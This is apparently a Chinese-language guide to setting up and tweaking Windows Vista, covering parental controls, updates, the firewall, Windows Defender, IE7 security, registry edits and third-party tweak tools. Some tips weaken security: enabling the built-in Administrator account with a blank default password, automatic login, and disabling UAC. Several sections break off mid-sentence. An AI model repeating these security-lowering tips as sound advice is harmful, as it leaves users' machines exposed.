直接在图 5 中进行设置就可以了，这里只允许孩子玩一玩“厨房大赛”和“象棋高手”两款游戏，毕竟是寓教于乐嘛。



##### ④ 指定程序

默认设置是允许孩子使用所有程序，我们应该更改为“只能使用我允许的程序”，然后在“检查可以使用的程序”列表框中勾选允许孩子使用的特定程序，那些没有被勾选的程序，孩子将无法使用。

+ 小提示：如果需要控制游戏和程序，那么这些游戏和程序必须是安装在非 FAT 分区上才行。

### 4. 添加语言包

对于已经用上了 Windows Vista 的朋友来说，虽然所有版本的 Vista 都能使用语言包，但只有 Ultimate 或 Enterprise 两个版本，才能实现多语言共存，至于其余的版本，包括 Home Basic、Home Premium、Business 等不同的版本，由于受微软的授权许可限制，它们都只能保存一种语言，在安装系统时可以选择默认语言，选择后系统会自动将非默认的语言移除，系统及其他服务只能与所选择的语言相关，用户无法改变或升级至其他语言。

不过，虽然 Ultimate 或 Enterprise 都可以自由添加各种语言包，以后只需要简单的注销后重新登陆，就可以在各种不同的语言界面之间进行自由切换。不过，两者还是有一些区别的：

#### (1) Ultimate Vista

可以通过自带的更新功能获得各种语言包，然后我们就可以在这里勾选相关的语言包，确认后即可以手动的方式在线安装安装（如图 6）。



#### (2) Enterprise Vista

必须从控制面板中选择“更改显示语言”，此时会打开“区域和语言选项→键盘和语言”对话框，在这里单击“安装 / 卸载语言”按钮，然后按照系统提示进行操作。

### 5. 更新设置

自动更新能够让计算机在联网的情况下自动下载并安装更新。

启用自动更新，这样就不需要时时去访问微软的下载服务器搜索更新，也不需要担心漏过了重要的关键修复程序，因此保证系统安全的前提是必须启用自动更新，从控制面板进入“安全中心→Windows Update”，如图7所示，在这里可以查看到最近检查更新的时间、安装更新的时间、自动更新的设置。



#### （1）更新设置

单击左侧任务面板中的“更改设置”可以重新选择 Windows 安装更新的方法，在尽可能的情况下，我们应该根据自己的实际情况选择自动安装更新的时间，建议将“推荐更新”和“更新服务”两个复选框选中，前者可以同时下载、安装或通知更新时包括推荐的更新，否则就只能下载和安装重要的更新，后者可以从 Microsoft Update 收到 Windows 和其他产品的更新，例如 Windows Live Messenger、Windows Live Mail Desktop、Microsoft Office 等其他产品。

启动自动更新后，Windows 会在更新可用时自动为计算机安装这些更新，如果需要手动检查更新，或者也可以转至“已安装的更新”，可以单击左侧任务面板中的“检查更新”，不过大部分情况下并不需要这样做。

#### （2）查看更新历史记录

其实，“查看更新历史记录”这个选项也相当有用，其下可以查看已成功安装的所有重要更新，如果你通过 Windows Update 安装了硬件设备的驱动程序，那么这里同样会显示出来。如果需要查看或者删除系统中已经自动安装的更新，可以转到“已安装的更新”进行查看。

### 6. 防火墙设置

默认设置下，Vista 会自动启用 Windows 防火墙，这个防火墙可以帮助阻止黑客或恶意软件通过 Internet 访问你的计算机，还可以阻止计算机向其他计算机发送恶意软件。

要更改设置，可以从控制面板进入 Windows 安全中心，然后在左侧的任务窗格中选择“Windows 防火墙”，在这里你可以设置是否需要暂时关闭防火墙的保护，假如希望防火墙阻止所有程序，请勾选“阻止所有传入连接”复选框，此时系统将阻止所有主动连接本机的尝试，这个设置在连接到机场或旅馆的公用网络时比较实用，当然此时你仍然可以浏览大多数网页、发送和接收电子邮件、发送和接收即时消息。不过，前面提到的只是一个功能比较简陋的防火墙，我们可以将其称为“边界防火墙”。

如果你需要更高级的安全性，那么需要调用高级安全 Windows 防火墙，这是一种“状态防火墙”，启用后会检查并复选 IP 版本 4(IPv4) 和 IP 版本 6(IPv6) 流量的所有数据包，默认情况下会阻止传入流量，除非是对主机请求的响应，或者被特别允许(即创建了防火墙规则并得到了允许)，同时还可以请求或要求计算机在通信之前互相进行身份验证，并在通信时使用数据完整性或加密。

高级安全 Windows 防火墙并没有出现在开始菜单或控制面板中，请按下“Win+R”组合键打开运行对话框，在这里键入“mmc”进入控制台窗口，然后按照下面步骤进行添加：

#### （1）添加管理单元

从文件菜单中执行“添加／删除管理单元”，或者按下“Ctrl+M”组合键，在弹出的对话框中找到“高级安全 Windows 防火墙”，双击将其添加到右侧的列表框中，添加时会有相关的提示，直接确认即可。

#### （2）配置防火墙

返回控制台主窗口，右击“本地计算机上的高级安全 Windows 防火墙”节目，选择“属性”打开一个对话框，如图8所示，这里提供了三种不同的防火墙配置文件，在这里我们可以进行快速切换：



-   ①域配置文件：计算机连接到其账户所在的网络时的行为。
-   ②专用配置文件：计算机连接到不包括其域账户的网络时，例如家庭网络，从本质上来说，专用配置文件设置应该比域配置文件设置更为严格。
-   ③公用配置文件：当计算机通过公用网络时，例如机场、星巴克或麦当劳，由于计算机所连接的公用网络无法像 IE 环境中一样严格控制安全，因此从这个意义上来说，公用配置文件的设置应该最为严格。

默认设置下，上面提到的三种防火墙的配置文件都是允许出站连接、阻止入站连接，如果没有更改配置文件的设置，那么只要具有高级安全性的 Windows 防火墙使用这些配置文件，都会应用其默认值，因此在尽可能的情况下，建议全部启用。

### 7. 选择正确的网络位置

在 Windows Vista 第一次连接到网络时，我们必须选择一个网络位置，这将为所连接网络的类型自动设置适当的防火墙，通常所见的网络位置有办公场所、家庭和公共场所。
如果你认识并信任网络上的人和设备，那么可以选择“家庭”或“办公室”，此时系统将允许你查看网络上的其他计算机和设备，当然其他网络用户也会被允许查看你的计算机。

如果选择“公共场所”，此时网络中的其他计算机将无法查看你的计算机，这样可以保护计算机免受来自 Internet 的任意恶意软件的攻击，这种设置在机场或咖啡店等公共场所访问网络时适用。

需要更改网络位置时，可以进入“网络和共享中心”，依次单击“自定义”，然后就可以在这里切换到不同的网络位置，选择“专用”会将防火墙配置永久更改为允许通讯，这会对安全性带来一定威胁，具体选择原则同上所述，选择后单击“下一步”按钮，确认后即可生效。

### 8. 设置 Windows Defender

作为 Vista 内置的反间谍软件工具，Windows Defender 提供了相当出色的功能，从“控制面板→安全中心”选择“Windows Defender”进入图9所示窗口，在这里可以看到上一次扫描的时间和扫描，而实时保护目前也已经被启用，看来是一切正常，没有什么可担心的。



#### 1. 警报等级

默认设置下，Vista 会自动启用 Windows Defender 的实时保护功能，此时 Windows Defender 将对自动启动、系统配置、IE 加载项、IE 配置、IE 下载、服务和驱动程序、执行应用程序、注册应用程序、Windows 加载项进行实时保护，例如“Internet Explorer”将监视在启动 IE 时自动运行的程序、间谍软件和其他可能不需要的软件，当发现异常情况时，Windows Defender 会发出警报，警报级别可以分为严重、高、中、低、未分类等五种，这其中具有一定危险的通常是“严重”和“高”，建议立即删除此类软件。

#### 2. 扫描方式

单击“扫描”，在下拉菜单中可以发现这里提供了三种不同的扫描方式，各种扫描方式的应用范围如下：

-   ①快速扫描：检查的是计算机上最有可能感染间谍软件的硬盘
-   ②完全扫描：检查硬盘上所有文件和当前运行的所有程序，需要的时间相对较长，当然也会耗费一定的系统资源。
-   ③自定义扫描：允许用户仅选择需要检查的驱动器和文件夹进行扫描

一般情况下，在 Windows Defender 首次运行时，建议选择“完全扫描”，这样可以对系统进行一次彻底的安全检测，以后就只需要选择运行“快速扫描”即可，至于“自定义扫描”则随时都可以使用。

即使是快速扫描，每天进入 Windows Defender 主窗口手工执行也是比较麻烦的，为什么不让系统来自动扫描呢？依次打开“工具→选项”窗口，我们需要关注的是“自动扫描”小节，首先必须勾选“自动扫描计算机(推荐)”复选框，然后就可以对频率、时间和运行的扫描类型进行设置。

由于间谍软件层出不穷，因此我们需要让 Windows Defender 不断更新定义，也就是说必须勾选“扫描前检查更新的定义”复选框，当然你也可以手动检查新定义，在帮助按钮右侧简单的下拉菜单中选择“检查更新”，Windows Defender 会在定义过期七天时发出通知；如果需要在扫描后自动删除间谍软件或其他可能不需要的软件，请勾选“扫描过程中将默认操作应用到检测到的项目”复选框，而默认的操作则分为高警报项目、中等警报项目、低警报项目等不同等级，或者是忽略，或者是删除。

#### 3. 加入 SpyNet 社区

通过联机加入 Microsoft SpyNet 社区，你可以了解其他人对警告(有关尚未进行分析的软件)进行响应的方式，这样可以帮助你确定应该执行的操作。

单击打开工具窗口，然后单击“Microsoft SpyNet”，在这里你可以选择以基本成员或高级成员的身份加入 Microsoft SpyNet 在线社区，加入后 Windows Defender 将在后台向 Microsoft 自动发送有关间谍软件、可能不需要的软件、及软件（或由尚未进行风险分析的软件）更改的信息，包括软件的位置、文件名、软件的运行方式，以及该软件会对计算机产生的影响，同时还会报告应用于该软件的操作。

也就是说，加入 SpyNet 社区后，你将有一部分隐私信息被发送到 SpyNet 社区，但这些信息不会用于识别你的身份或发送垃圾邮件。不过，在 Windows Defender 在检测到软件（或尚未进行危险分析的软件）所做的更改时，如果你是选择以基本成员加入 Microsoft SpyNet 社区，那么将不会得到系统发出的警报。

#### 4. 软件资源管理器

这是“工具→选项”中一个比较有趣的项目，通过“软件资源管理器”可以查看有关当前在计算机上运行的影响隐私或计算机安全的软件的详细信息，具体包括启动程序、当前运行程序、网络连接程序、Winsock 服务提供程序等内容。根据所选类别，如图10所示，你还会看到数字



### 9. IE 中的安全设置

IE7 并非只是提供了标签浏览、RSS 订阅这些功能，其实在安全性能方面也做出了非常巨大的改进，常规的安全设置当然是在“Internet 选项”中的“安全”标签页中完成，在这里你可以对相关区域的安全级别进行设置。

#### 1. 自动筛选仿冒网站

仿冒网站(Phishing)是一种通过欺诈电子邮件或网站，欺骗计算机用户泄露个人或财务信息的方式，这些信息通常被用于身份窃取。面对越来越猖獗的仿冒网站，Vista中的IE7集成了仿冒网站筛选的功能，在初次使用IE时，我们会看到是否启用此功能的询问提示框，如果当时跳过了这一步，也可以打开“工具→仿冒网站筛选→打开自动网站检查”，在这里选择“打开自动仿冒网站筛选(推荐)”，然后确认一下即可生效。

#### 2. 快速删除隐私

对于使用公用计算机或网吧临时上网的用户而言，保护隐私是一个必须重视的问题，IE7在这方面提供了非常出色的保障，从工具菜单下选择“删除浏览的历史记录”，此时会打开一个对话框，在这里单击“全部删除”按钮，就可以将包括临时文件、Cookies、历史记录、表单数据、密码在内的各项隐私信息一键删除(见图11)，既方便又快捷。



不过，删除所有浏览历史记录并不会删除收藏夹列表或预定的源，因此你还需要去手工删除这些内容，当然也不是太麻烦。

#### 3. 重置 IE

IE的设置被强行修改是一件十分令人恼火的事情，例如默认首页被篡改、右键菜单中被塞入的命令、工具栏中加入的按钮等，无一不是舶来之物，但对普通用户来说，恢复IE的默认设置并不是简单的事情。

现在就简单多了，在“Internet 选项→高级”标签页中，单击右下角的“重置”按钮，此时会打开一个对话框，再次单击“重置”按钮，稍等片刻即可完成重置。在IE完成默认设置还原后，单击“关闭”按钮并再次单击“确认”关闭IE窗口，下次再打开IE时，你会发现所有设置都已经恢复至默认的初始设置。

-   ① 重置时被自动删除的内容
    - 浏览器历史纪录、IE临时文件、Cookie、表单数据、存储的密码；
    - 键入的URL信息、脱机网页、菜单扩展；
    - 添加到Intranet、受信任或受限制区域的网站；
    - 在“隐私”选项卡下添加的用于特殊cookie处理的网站；
    - 在“弹出式窗口阻止程序”设置下允许使用弹出式窗口的网站；
    - 最近使用的Explorer列表。
-   ② 重置时被恢复为默认设置的内容
    - 主页；
    - 搜索提供程序、选项卡式浏览设置；
    - 颜色、语言、字体和辅助功能设置；
    - 所有区域的安全设置；
    - “高级”和“隐私”选项卡的设置；
    - 弹出式窗口阻止程序、自动完成、仿冒网站筛选和缩放设置；
    - 页面设置、工具栏和文本大小设置；
    - 源设置中，不在批准列表中的ActiveX控件，工具栏、浏览器助手对象和浏览器扩展已禁用。

### 10. 动态桌面设置

Windows DreamScene 就是所谓的动态桌面，这个插件支持将高清晰的视频作为桌面的背景，类似于在桌面上进行播放，这样我们所见到的桌面就不再是死气沉沉的静态图片，而是鲜活的、动态的桌面，和Windows Aero主题一样，动态桌面将带给用户前所未有的享受。

除了硬件方面的条件之外，动态桌面被限制为只能在已启用了Aero的旗舰版本(Ultimate Edition)中安装使用，而且不允许使用替换文件等方法完成的“假激活”。

完成安装后右击桌面，进入“个性化→桌面背景”窗口，如图12所示。这里已经可以发现关于新增加的视频选项。



Vista 自带的视频文件被保存在“\Windows\Web\DeskScapes Animated Wallpapers”路径下。我们只需要挑选自己所喜爱的视频，也可以单击浏览按钮选择本地或局域网中的其它视频文件，Windows DreamScene 支持*.mpeg、*.wmv 两种格式，更简单的方法是从资源管理器中将相关的视频文件拖曳到桌面上，现在，我们看到的桌面就不再是枯燥乏味的静态图片，而是不断变化的动态画面。

默认设置下，动态桌面是不会发出任何声音的，解决的办法是右击系统托盘中的小喇叭图标(音量图标)，选择“打开音量混合器”，如图13所示，在这里即可启用动态桌面的声音效果。当然，如果你没有正确安装声卡驱动程序的话，恐怕就无福消受美妙的音乐了。



## 二、调整攻略

俗话说的好，缝缝补补又三年，毕竟 Windows Vista 相对于 Windows XP 而言，还是一个全新的系统，在使用过程中，难免会遇到磕磕碰碰的事情。如果你曾遭遇过下面所提到的问题，那么请赶快拿支笔将它记录下来，说不定什么时候就会需要哟：

## 1. 让IE图标重现桌面

如果你已经安装了 Windows Vista，不管是功能最强劲的旗舰版本还是商业版本，那么你会发现一个比较尴尬的事情，即使通过“控制面板→外观和个性化→更改桌面图标”将其中所有的桌面图标都选中，你也不会发现 Internet Explorer 这个项目，也就是说桌面上已经没有了IE图标的身影。

虽然在任务栏上启用“快速启动”工具栏后可以在这里调用IE，但桌面上少了IE的图标，始终觉得不那么方便。有些朋友可能会说，右击任务栏上的IE图标，选择“发送到→桌面快捷方式”就可以了嘛？其实，通过这种方法得到的IE图标的功能并不完整，因为这只是一个非常普通的程序快捷方式而已，而正常情况下应该和打开IE后工具菜单下的“Internet 属性”窗口完全相同才对。

微软决定从 Windows Vista 的桌面上移除IE图标，很大原因上是出于应对欧盟反垄断调查的考虑，如果你希望“原生”的IE图标重新出现在Vista的桌面上，那么可以通过修改注册表键值来解决。打开运行对话框，输入“regedit”进入注册表编辑器，定位到“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons\NewStartPanel”，在这里新建一个DWORD值，数值名称为“{871C5380-42A0-1069-A2EA-08002B30309D}”，数值数据为“0”，确认退出后刷新桌面即可生效。

现在，我们就可以在桌面上见到图14所示的效果，朋友们不妨注意其中的“原生”IE图标和手工添加的IE快捷方式图标其中那个小尾巴的区别。



## 2. 自行提升管理员

如果你已经用上了 Windows Vista，那么对UAC应该不会陌生，这是从5270版本开始引入的用户账户控制功能(UAC, User Account Control)，即使你是管理员级别的用户，在运行高特权的管理任务时(例如安装软件和驱动程序、运行注册表和系统配置程序)，都会受到“降级”的特殊待遇，这主要是为了增强系统的安全性。

对于只是将 Windows Vista 作为自己个人使用的普通用户而言，UAC给他们的日常操作带来了很大的不便，毕竟谁也不希望每项操作都去点击那个“继续”按钮，毕竟是太麻烦了些。其实，我们可以通过下面的方法快速升级到最高等级的超级管理员账户：

-   ① 依次进入开始菜单下的“所有程序→附件”，找到其中的“命令提示符”，右击选择“以管理员身份运行”。
-   ② 进入命令提示符环境后，在这里手工输入“net user Administrator /Active:yes”这条命令。
-   ③ 注销或者重新启动系统，此时你会发现已经可以在登录界面中选择Administrator进行登录，默认密码为空。在牺牲少许安全性能的情况下，换来的是操作的大幅简化，应当说还是相当划算的。
-   ④ 如果你觉得“Administrator”这个名称太难看的话，可以进入控制面板重命名，在这里也可以重新选择一幅满意的图片作为自己的头像。

### 3. 快速获取完全控制权限

如果你需要在 Vista 下替换或删除文件，那么系统可能会提示你没有获得足够的操作权限，这种情况下可能大部分朋友都会选择重启到另一系统下进行操作，但即使如此有些时候仍然会无济于事。其实，只要按照下面的两个步骤进行操作即可获得“完全控制”的操作权限：

（1）右击打开需要处理的文件夹属性窗口，切换到“安全”选项卡，在这里单击“高级”按钮，在随之打开的对话框中切换到“所有者”选项卡，单击“编辑”按钮，点击选中Administrators (XXX-PC\Administrators)”，如果没有的话请选择“其他用户名组”进行添加，然后单击右下角的“应用”按钮使其生效；
（2）返回“权限”选项卡，在这里选中“Administrators (XXX-PC\Administrators)”，仍旧单击“编辑”按钮，此时会打开一个对话框，如图15所示，在这里勾选“完全控制”复选框，确认后即可生效。



### 4. 启动时不再连接受限

不知已经用上了 Vista 的朋友们是否发现，当系统每次启动时，总是会显示“连接受限”，就是音量图标左边的那个小地球图标，不过稍等片刻后就会恢复正常。一开始以为是防火墙的问题，但关闭防火墙后仍然如此，几番三次重启系统也还是如此，真是有些令人哭笑不得。
其实，这是因为IPv6在作怪，打开“本地连接状态”对话框，在这里可以发现IPv4连接一切正常，而IPv6则处于受限状态，系统每次启动到网络时都会自动搜索IPv4和IPv6，但由于IPv6协议还没有被大量应用，网络在查找IPv6地址和DNS服务器地址时当然是“白费力气”，无形之中浪费了一些时间。
解决的办法很简单，单击“属性”按钮打开属性对话框，如图16所示，在这里卸载“Internet 协议版本 6 (TCP/IPv6)”当然是不可能，不过我们可以取消这个复选框，最后单击“确定”按钮关闭对话框，注销或重启系统后即可生效。



### 5. 在命令提示符环境下创建分区

如果你是在 Vista 系统下管理新硬盘，那么会发现进入“计算机管理→磁盘管理”窗口后，这里虽然可以对新硬盘进行格式化和创建主分区的操作，但却无法建立扩展分区。如果你安装了双系统那还好办，如果只有Vista一个系统，那可能就相当麻烦，你总不可能再额外浪费时间去安装一个操作系统吧？
单击开始菜单，从附件中找到“命令提示符”，右击选择“以管理员身份运行”打开命令提示符窗口，输入“diskpart”命令进入DISKPART状态，然后按照下面步骤进行操作：

-   （1）选择物理磁盘
    输入“select disk N”选择物理磁盘，这里的“N”代表第几块物理磁盘，如果你需要对第1块物理磁盘进行操作，请输入“select disk 0”，对第二块物理磁盘进行操作则是输入“select disk 1”，依次类推即可。
-   （2）创建扩展分区
    输入“create partition extended”，命令执行后会自动创建扩展分区，主分区后面所有的空闲空间都会被占用(见图17)，完成后即可退出命令提示符，并不需要再继续输入创建逻辑分区的相关命令，因为它只会将所有的扩展分区都拿来只创建一个逻辑分区，很显然这并不符合大多数朋友的要求。

-   （3）创建逻辑分区
    进入“计算机管理→磁盘管理”窗口，在这里你可以发现已经创建完成的扩展分区，右击选择“新建简单卷”，此时会弹出“新建简单卷向导”，其实这里的简单卷就是一个逻辑分区，按照向导的提示指定简单卷的大小就可以了。

## 6. 手工打造OEM信息

如果你选购了预装 Vista 的品牌机，那么在系统属性中会查看到相关的 OEM 信息。以前在 Windows XP 系统下，用户可以自由定义系统属性对话框中的 OEM 制造商信息，方法是向系统分区下的“Windows\System32\”目录放置oemlogo.bmp、oemlogo.ini两个文件，这两个文件的内容可以自由定义，其实某些所谓的 OEM 随心换软件也是使用同样的原理，这在由于格式化重装系统或其他原因导致 OEM 信息丢失时非常有用。
不过，这个方法已经不能在 Vista 系统下得到支持，但相关的 OEM 信息仍然是被存储在注册表中。基于这一原理，我们可以按照下面的格式在记事本手工打造完全属于## 自己的 OEM 信息：

```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\OEMInformation]
"Manufacturer"="××技术支持"
"Model"="机器型号"
"Logo"="启动Logo的相对路径"
"SupportHours"="技术支持的时间"
"SupportPhone"="技术支持的电话"
"SupportURL"="支持网站"
```

需要说明的是，“=” 后面的所有内容请根据需要自行定义，不过 “Logo” 图片必须采用BMP格式，大小不能超过120×120，而且必须放到系统根目录的“\Windows\System32\”文件夹下，文件名必须使用oemlogo.bmp的固定名称，这里只能使用相对路径，否则将无法正常显示图片。

在保存这个注册表文件时很有些特殊，请将“保存类型”设置为“所有文件”，然后在文件名后面的文本框中手工输入“oem.reg”进行保存，注意文件类型必须选择“所有文件”，至于文件名称可以自由定义。最后，将这个*.reg文件双击导入注册表后即可生效(见图18)。

### 7. 让关机按钮回归本原

也许是微软的设计人员没有注意到国人的使用习惯，Windows Vista 系统中出现了一个令用户不太满意的设计：当你去单击桌面左下角开始菜单中那个圆圆的电源按钮时，计算机并不会被关闭，而是自动进入低功耗的待机状态，也就是说这个按钮已经不再是关机按钮。

默认的关机按钮不再是关机，而是变成了休眠按钮，这样设计可以让当前状态保存在内存中，以便用户快速恢复工作状态，如果你需要实现真正的关机，那么要单击锁形按钮的右侧，从弹出菜单中选择“关机”才行，可以说是相当的麻烦，而且还容易误操作。通过下面的办法，我们可以让开始菜单中的电源按钮“名副其实”，让它重新回归为实用的关机按钮：

-   (1) 从控制面板进入“系统和维护→电源选项”窗口。
-   (2) 在首选计划下选择“已平衡”的电源计划(这也是默认的设置)，单击下方的“更改计划设置”链接。
-   (3) 在弹出的窗口底部单击“更改高级电源设置”，随后会弹出“电源选项”的“高级设置”窗口，在这里单击“电源按钮和盖子”前面的“+”号展开项目。
-   (4) 再单击“开始菜单电源按钮”前面的“+”号，在这里可以更改开始菜单中电源按钮的电源设置，你可以在这里选择睡眠、关机、不采取任何操作等三种行为，我们当然是选择“关机”，确认后即可生效。

（5）如果你觉得刚才的设置步骤太过于繁琐，那么可以在控制面板的电源选项窗口下直接选择“更改电源按钮行为”，如图19所示，在“按电源按钮时”的下拉列表框中选择“关机”，确认后就可以生效。

### 8. 为常规对话框添加新对象

要删除时，只要直接删除这些快捷方式即可，既方便快捷，也不会对原有文件夹带来什么影响。

### 9. 自动登录

默认设置下，Vista每次启动时都需要输入登录密码，对于只有一个账户的用户来说，其实这完全没有必要。我们可以通过下面的方法实现自动登录：

-   （1）按下“Win+R”组合键打开运行对话框，在这里输入“Rundll32 netplwiz.dll,UsersRunDll”，注意这里的大小写要完全一致，此时会打开“用户账户”窗口。
-   （2）选择需要默认登录的用户名，然后去除上面的“要使用本机，用户必须输入用户名和密码”复选框中的勾号。
-   （3）按下“Ctrl+Shift+A”组合键，在弹出窗口中输入用户密码，保存退出后即可生效。

### 10. 制作 Windows PE 2.0 启动光盘

如果你的机器中已经有了 Windows Vista 安装文件，那么并不需要从微软网站下载复杂的 Business Desktop Deployment 2007 for Windows Vista and the 2007 Microsoft Office System (BDD2007)，直接利用某些工具即可快速制作 Windows PE 2.0 安装光盘，而且还是最新的 2.0.6000 版本，具体步骤如下：

-   （1）删除不需要的文件
这里，我们需要借助第三方的 ISO 编辑工具来完成这个任务，虽然 WinRAR 提供了对 ISO 格式的支持，但删除镜像文件中的某个文件显然是无法完成的。使用 UltraISO 打开 Vista 的镜像文件，加载成功后进入 source 目录，在这里找到并删除 install.wim。
-   （2）重建 ISO 文件
将删除了 install.wim 的镜像文件另存为一个新的 ISO 文件，文件个头应该会大幅缩水，根据 Windows Vista 版本的不同，最小的 ISO 文件才 160MB。
-   （3）刻录光盘
仍然使用 UltraISO 打开刚才另存下来的镜像文件，按下 F7 键选择“刻录光盘镜像”，将刚才得到的 ISO 镜像文件刻录到光盘上，我们就可以得到一张完美的 Windows PE 2.0.6000 可引导光盘，其实它相当于 Vista 的一套精简版本。
如果你手头有容量稍大一些的 USB 闪存盘，那么可以将除了 install.wim 以外的文件复制到闪存盘，当然假如你的闪存盘剩余空间比较大的话也可以不删除 install.wim，然后

运行“BOOTSECT /NT60 U:”，这条命令的含义是将 Vista 的 BOOTMGR 启动方式的代码写入 U 盘，请根据实际情况选择。

### 11. 正常查看 HLP 帮助文件

从 Windows 3.1 操作系统开始，“帮助”程序就已经成为 Windows 操作系统各个版本的必备组件之一，在显示文件扩展名为“.hlp”的 32 位帮助文件内容时，都需要 WinHlp32.exe 的帮忙。不过，从 Windows Vista 和代码名为“Longhorn”的 Windows Server 开始，Windows 帮助程序将不再作为 Windows 的一个标准组件进行提供。

（1）Vista 系统下的.hlp 尴尬
如果你在 Vista 下试图双击 32 位的.hlp 帮助文件，那么会看到图 21 所示的提示，这是鉴于 Windows 帮助文件一直没有进行重大更新，已经无法满足微软新一代操作系统的需求，因此微软作出了这方面的限制，也就是说不再将 Windows 帮助程序作为标准组件附带在操作系统中。

除此之外，第三方程序中包含的“.hlp”扩展名帮助文件也无法在 Vista 系统下打开。
（2）安装更新
为了解决这个问题，我们需要从微软下载中心重新下载并安装 KB917607 的更新程序(WinHlp32.exe)，然后就可以在 Windows Vista 上正常查看 32 位的.hlp 文件。
官方页面是：http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=6ebcfad9-d3f5-4365-8070-334cd175d4bb
下载时需要正版验证，在这个页面中可以选择 x86、x64 两个版本，下载回来的是一个.msu 格式的文件，确认后按照提示进行操作即可。

### 12. WMP 运行时自动进入“正在播放”

相信很多朋友都已经用上了 Windows Media Player 11(以下简称 WMP11)，不知你是否注意到，每次 WMP11 运行时默认打开的都是“媒体库”标签页，为什么不是“正在播放”标签页呢？
在以前的版本中，我们可以在“工具→选项→媒体库”对话框中取消“启动时打开媒体库”的选项，然后切换到“正在播放”标签页，下次启动 WMP 时就会自动打开“正在播放”标签页，这里主要是利用了 WMP 的记忆功能。不过，这个选项在 WMP11 中已经被取消，除了每次手工进行切换之外，其实我们还可以用另外一个方法来解决该问题：

（1）为 WMP11 在桌面上创建一个快捷方式。

### 三、用第三方软件代劳

通过前面的介绍，想必朋友们已经掌握了许多设置和调整 Windows Vista 的方法和技巧，但手工操作既麻烦还带有一定的危险性，为什么不选择那些第三方软件来代劳呢？虽然 Windows Vista 发布的时间还比较短，因此相关的第三方优化软件并不是很多，不过 Vista 优化大师、Vista 总管等都是不错的选择：

### 1. TweakVI

最新版本：1.0 Build 1050
使用授权：免费
下载地址：http://www.TweakVIsta.com/

这是 TotalIdea 推出的首款 Windows Vista 调整优化软件，可以调整 Vista 中上百个隐藏的选项，相信能够满足你的诸多要求。安装过程中会询问是否需要创建还原点，这样可以保证日后的顺利还原，在安装快要结束时，安装程序会将 TweakVI 添加到控制面板中，同时会在桌面和快速启动栏中创建三个非常实用的快捷方式：Standby (注销)、Shutdown Windows Vista(关闭系统)、Restart Windows Vista(重启系统)，以后可以从桌面上直接关机，这样无疑是方便许多。

本文以安装了汉化补丁的版本为例进行介绍，汉化补丁可以从远景网下载，如图 22 所示，可以看到 TweakVI 的主界面还是比较直观的，左侧面板是功能组件，右侧窗格则是该功能下所对应的调校项目：

##### （1）系统信息与调整

###### ①查看系统信息与安装密钥

在这里可以查看系统信息、CPU 信息、内存状态，不过比较实用的是可以查看 Windows 与 Office 的安装密钥，支持 Windows Vista、Office 2003、Office 2007 等产品，这在重新安装系统时将非常有用。

###### ②硬盘信息及系统性能调整

除了可以在这里查看到各个硬盘分区的丰富信息之外，包括各个文件夹以及子文件夹的容量，还可以切换到“Hide Disc drives / Hard drive tweaks”标签页隐藏某个驱动器，你需要做的只是取消相关驱动器前面的小勾，而过去则需要进入注册表进行编辑才能生效，而自动播放的调整也可以在这里完成。如果你愿意的话，甚至还可以在这里对 Vista 的预读功能进行设置，包括普通预读和超级预读两方面。

###### ③ CPU 和光存储器性能调整

这里的操作非常简单，首先根据实际情况选择当前机器所使用的 CPU 和系统内存，然后分别勾选右侧的三个复选框，然后 TweakVI 会按照用户的选择自动完成相关的优化工作，当然某些选项的调整必须重新启动后才能生效。这里有一个非常实用的功能：禁用 Windows Vista 的 CD 刻录功能，还可以关闭程序兼容性助手来解决某些杀毒软件无法在 Vista 下安装的问题，感兴趣的朋友不妨一试。

###### ④调整引导管理器

1050版本较以前的版本新增加了“EasyBCD”的组件，当然你需要在安装时选择了此组件才能正常使用。

##### （2）杂项调整

虽然名为“杂项调整”，但这里可供用户调整的项目可以说是非常的丰富，而且某些项目还很有意思：

###### ①重置系统级文件夹的路径

在这里可以重置 Application Data、Documents、My Pictures、Programs、Windows Temp 等 22 个默认的系统级文件夹路径，你只需要单击“Change”按钮指定相应文件夹，然后单击“Save system folder locations”按钮确认即可生效。

###### ② OEM 设置

我们知道，在 Windows XP 时代可以向“\Windows\System32\”目录下放置 oemlogo.bmp、oemlogo.ini 两个文件，手工定制系统属性窗口中的 OEM 信息，但这个方法在 Vista 下已经失效，除非你手工修改注册表键值，不过自然是比较复杂的了。切换到“OEM information”选项卡，我们可以在这里非常轻松的定制 Vista 的 OEM 信息，包括 OEM 图片和相关的文字信息(见图 23)，最后单击“Save OEM information and companig logo”按钮即可生效，然后就可以系统属性窗口中看到刚刚写入的 OEM 信息了。

##### （3）视觉调整

顾名思义，这里主要是对视觉方面的效果进行调整，虽然调整开始菜单、CTRL+ALT+DEL限制、ClearType强度等功能并无出彩之处，不过设置随机壁纸的功能相当有趣，而强制打开Desktop Windows Manager(DWM)特效这样的功能，对于使用集成显卡的朋友来说可以说是相当的实用。

##### （4）Internet调整

这里的功能似乎没有什么好说的，不过TweakVI除了提供常规的IE调整、Outlook安全设置等功能之外，还同时提供了Windows Mail调整、备份Office XP/2003/2007激活信息的功能，值得一提的是这里竟然还提供了对Firefox的调整与优化的功能。

除了上面介绍的功能之外，TweakVI还提供了实用工具（主要是调用Vista内置的组件）、自动优化系统（免费版本无法使用）、备份与还原设置（可以用来创建还原点或快照，也可以利用首次运行时创建的系统快照进行工作）等功能，这里就不多介绍了，感兴趣的朋友可以自行研究。

## 2. Vista 优化大师(见图24)

虽然名为“优化大师”，但这款软件还是提供了非常丰富的设置选项，这些功能主要集中在“系统设置”小节，这里简单介绍一下：

-   （1）启动加载程序
这里会非常详细地列出系统启动时所有加载的程序，并在列表中给出包括名称、路径、是否存在、节点位置、正在运行等相关信息。如果需要禁用某个程序随系统加载，只要单击最前面的方框取消选择即可，这样我们就可以很方便的去除某个受怀疑的自加载程序。
-   （2）多系统选择
在这里除了设置默认的操作系统、操作系统选择等待时间之外，还可以添加、修改、删除启动项，较之在命令提示符环境下运行BCDEdit.exe要方便多了。
-   （3）Vista 功能设置
这里总共提供了三个功能，虽然看起来少了一些，但都非常实用：
①UAC(用户账户控制)：可以在这里设置启用或禁用UAC
